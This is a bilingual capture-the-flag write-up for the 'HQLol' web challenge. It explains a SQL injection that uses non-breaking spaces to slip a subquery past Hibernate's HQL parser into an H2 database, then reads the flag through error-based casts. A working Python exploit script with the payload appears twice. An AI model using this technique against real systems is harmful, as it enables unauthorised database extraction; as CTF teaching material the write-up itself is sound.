 ﻿##HQLol (Web, 500p)

	Plenty of hacker movies. 
	But table FLAG isn't mapped by HQL and you aren't an DB administrator. 
	Anyway, good luck!

###PL
[ENG](#eng-version)

W zadaniu dostajemy stronę napisaną w gradle która pozwala przeglądać listę filmów o hackerach oraz wyszukiwać filmy.
Ta ostatnia opcja jest wyjatkowo ciekawa ponieważ od razu widać, że wyszukiwarka jest podatna na SQL Injection, a dodatkowo wypisuje logi błędu oraz stacktrace.

Zapytania do bazy wykonywane są poprzez Hibernate, a baza to H2. 
Użycie Hibernate oraz HQL wyklucza możliwość wykonania `union select`, niemniej cały czas możemy wykonywać podzapytania.
Ponieważ widzimy logi błędów, możemy w warunku `where` wykonywać niepoprawne rzutowania (np. stringa na inta) i w ten sposób odczytywać wartości.

Dodatkowo jak wynika z treści zadania tabela z flagą nie jest zmapowana przez Hibernate, więc jakakolwiek próba wykonania zapytania dla tabeli `flag` skończy się błędem `flag table is not mapped by Hibernate`.

Treść zadania informuje nas także, że nie jesteśmy administratorem, więc nie możemy skorzystać z funkcji `file_read()` udostępnianej przez bazę H2.

Po długiej analizie obu potencjalnych wektorów ataku - bazy H2 oraz Hibernate trafiliśmy wreszcie na interesujące zachowanie lexera/parsera HQL - nie rozpoznaje on poprawnie `non-breaking-space` w efekcie użycie takiego symbolu jest traktowane jak zwykły symbol.

Oznacza to, że `XXnon-breaking-spaceXX` zostanie potraktowane przez parser jako jedno słowo, podczas gdy baza danych potraktuje to jako dwa słowa przedzielone spacją.
Dzięki temu wysłanie ciągu `selectXflagXfromXflag` gdzie przez `X` oznaczamy non-breaking-space nie zostanie przez parser HQL zinterpretowane jako podzapytanie i nie dostaniemy błędu `table flag is not mapped`, a jednocześnie baza H2 poprawnie zinterpretuje ten ciąg jako podzapytanie.

Do pobrania konkretnej wartości wykorzystaliśmy niepoprawne rzutowanie wartości z tabeli `flag` i flagę odczytaliśmy z logu błędu.

Skrypt rozwiązujący zadanie:

```python
import requests
from bs4 import BeautifulSoup

val = u'\u00A0'

payload = u"' and (cast(concat('->', (selectXflagXfromXflagXlimitX1)) as int))=0 or ''='"
quoted = requests.utils.quote(payload)
quoted = quoted.replace('X', val)
response = requests.get('http://52.91.163.151:8080/movie/search?query=' + quoted)
soup = BeautifulSoup(response.text)
x = soup.find('dl', class_='error-details')
if x:
    print x
else:
    print response.text
```

###ENG version

In the task we get a webpage writen in gradle, which allows us to browse hacker movies and search them.
This last option is interesting since it's clear that there is a SQL Injection vulnerability there, and also because it prints out the whole error messages with stacktraces.

Database queries are handled by Hibernate and the database is H2.
Hibernate and HQL restricts us a little bit, because we can't use `union select`, however we can still execute subqueries.
Since we can see error logs we can perform incorrect casts in `where` condition (eg. string to int) and read the value from error message.

Additionally the task description states that the table with flag is not mapped by Hibernate, so any attempt to query this table will end up with `flag table is not mapped by Hibernate`.

The task description also informs us that we're not admin so we can't use `file_read()` function from H2 database.

After a long analysis of potential attack vectors - H2 database and Hibernate, we finally found an interesting behaviour of HQL parser - it does not handle non-breaking-spaces correctly, and therefore this symbol is treated as a normal character and not as whitespace.

This means that `XXnon-breaking-spaceXX` will be treated by parser as a single word, while the database will treat this as 2 words separated by a space.
Thanks to that, sending `selectXflagXfromXflag`, where `X` is the non-breaking-space, will not be recognized by HQL parser as subquery and thus we won't see `table flag is not mapped` error, but the database itself will recognize this as a subquery.

In order to get value from table we used the incorrect cast of the value from `flag` table and the result could be seen in errorlog.

Script to solve this task:

```python
import requests
from bs4 import BeautifulSoup

val = u'\u00A0'

payload = u"' and (cast(concat('->', (selectXflagXfromXflagXlimitX1)) as int))=0 or ''='"
quoted = requests.utils.quote(payload)
quoted = quoted.replace('X', val)
response = requests.get('http://52.91.163.151:8080/movie/search?query=' + quoted)
soup = BeautifulSoup(response.text)
x = soup.find('dl', class_='error-details')
if x:
    print x
else:
    print response.text
```
